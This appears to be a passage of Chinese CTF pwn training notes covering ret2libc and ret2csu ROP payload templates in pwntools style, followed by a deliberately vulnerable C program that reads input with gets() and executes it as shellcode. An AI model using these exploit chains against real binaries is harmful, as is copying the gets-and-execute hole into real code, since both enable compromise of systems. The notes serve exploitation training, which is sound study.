 

#### 				2) write函数(ret2csu)

```
payload = b'a' * 溢出长度 + p32(write_plt) + p32(main) + p32(1) + p32(xxx_got) + p32(4)

payload2 = b'a' * 溢出长度 + p32(system) + p32(0) + p32(binsh)
```

![image-20230711095213098](.\SNERT2023\image-20230711095213098.png)

```python
payload = b'a' * 溢出长度
payload += p64(add_rsp_8_pop_rbx_rbp_r12_r13_r14_r15)
payload += b'b' * 8 + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)  # 1
payload += p64(mov_rdx_r13_mov_rsi_r14_mov_edi_r15d_add_rbx_1_cmp_rbx_rbp)  # 2  
# 3、4只要满足rbp - 1 = rbx
payload += b'a' * (8 * 7)  # 5
payload += p64(main)

payload2 = b'a' * 溢出长度 + p64(pop_rdi) + p64(binsh) + p64(system)
```





# 第二天

## shellcode

shellcode题的执行shellcode的函数一般无法通过IDA反编译，需要看懂汇编

### 		1.普通shellcode

```c
#include <stdio.h>

void vuln(){
	char shellcode[0x400];
	gets(shellcode);
	((void (*)())shellcode)();
}

int main(){
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	write(1, "what's your name?\n", 18);
	vuln();
	return 0;
}
```

